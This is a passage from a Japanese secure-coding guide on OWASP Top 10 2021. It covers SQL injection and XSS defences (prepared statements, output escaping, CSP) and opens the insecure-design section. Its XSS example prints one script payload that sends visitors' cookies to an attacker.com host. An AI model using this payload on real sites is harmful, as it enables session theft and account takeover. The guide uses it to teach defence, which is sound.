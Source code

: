 *   **攻撃例**:
    掲示板のコメント欄に、以下の様なHTMLタグを投稿します。
    `<script>document.location='http://attacker.com/steal?cookie=' + document.cookie;</script>`
    この投稿が含まれたページを他のユーザーが閲覧すると、そのユーザーのブラウザ上でこのスクリプトが実行されます。結果、ユーザーの**Cookie**（セッション情報などが含まれる）が攻撃者のサーバーに送信され、アカウントを乗っ取られてしまいます。

#### 対策方法
インジェクションを防ぐ鍵は、**「入力の分離」**と**「出力の無害化」**です。

1.  **SQLインジェクション対策: プリペアドステートメントの使用**:
    これは最も重要で効果的な対策です。**プリペアドステートメント（またはパラメータ化クエリ）**は、SQLクエリの「骨格（命令）」と、そこに埋め込む「値（データ）」を別々にデータベースエンジンに送ります。これにより、入力値がSQLコマンドとして解釈されることは決してなくなり、インジェクションを根本的に防ぎます。

    **具体的なコード例（PHP/PDO）**
    ```php
    // 悪い例: 文字列連結は非常に危険
    $sql = "SELECT * FROM users WHERE username = '" . $_POST['username'] . "'";
    $result = $pdo->query($sql);

    // 良い例: プリペアドステートメント
    $stmt = $pdo->prepare("SELECT * FROM users WHERE username = :username");
    $stmt->execute([':username' => $_POST['username']]);
    $user = $stmt->fetch();
    ```

2.  **XSS対策: コンテキストに応じた出力エンコーディング**:
    ユーザーからの入力をWebページに出力する際は、出力する場所（**コンテキスト**）に応じて、必ず**エスケープ（無害化）**処理を行ってください。
    *   HTMLの要素内に出力する場合: `<` を `&lt;` に、`>` を `&gt;` に変換するなど。
    *   JavaScriptの変数として出力する場合: 特殊文字を `\` でエスケープするなど。
    多くのモダンなWebフレームワーク（React, Vue, Angularなど）は、デフォルトで強力な自動エスケープ機能を持っています。これを無効化しないように注意してください。

3.  **Content Security Policy (CSP) の導入**:
    CSPは、ブラウザが読み込んで実行できるリソース（スクリプト、画像など）のソースを、サーバーが明示的に指定できるセキュリティ機能です。これにより、たとえXSS脆弱性が存在しても、攻撃者のサーバーからスクリプトを読み込むことを防ぎ、被害を大幅に軽減できます。

---

### A04:2021 - 安全でない設計 (Insecure Design)

これは特定の実装ミスではなく、より上流の「設計」段階に起因する、新しいカテゴリのリスクです。

#### 概要
**安全でない設計**とは、ソフトウェアやシステムの設計段階で、セキュリティ要件が十分に考慮されていなかったり、ビジネスロジックに悪用可能な欠陥があったりする状態を指します。後からパッチを当てるのが難しく、根本的な再設計が必要になることもあります。

**分かりやすい例え**:
家を建てる際に、防犯を全く考えずに設計するようなものです。窓が地面スレスレにあり、誰でも簡単に割って入れるような構造だったり、裏口に鍵がなかったり。後からどんなに頑丈な玄関の鍵を取り付けても（**実装レベルの対策**）、設計上の欠陥（**安全でない設計**）があれば、泥棒は容易に侵入できてしまいます。

#### 攻撃例
**例1: ビジネスロジックの悪用**
あるECサイトで、初回限定の割引クーポンが発行されたとします。しかし設計が甘く、ユーザーがアカウントを削除しては新規作成することを繰り返せば、何度でもこのクーポンを使えてしまいます。これはコードのバグではなく、「1人1回まで」という制約を強制する設計が欠けていることが問題です。

**例2: パスワードリセット機能の欠陥**
パスワードリセット機能が、「ユーザーID」と「登録メールアドレス」を入力するだけでリセット用リンクを送信する仕様だったとします。もしユーザーIDが簡単に推測できる場合、攻撃者は他人のユーザーIDと自分のメールアドレスを入力して、パスワードを乗っ取ろうと試みるかもしれません。設計段階で「秘密の質問」や「多要素認証」といった、より強固な本人確認プロセスを組み込むべきでした。
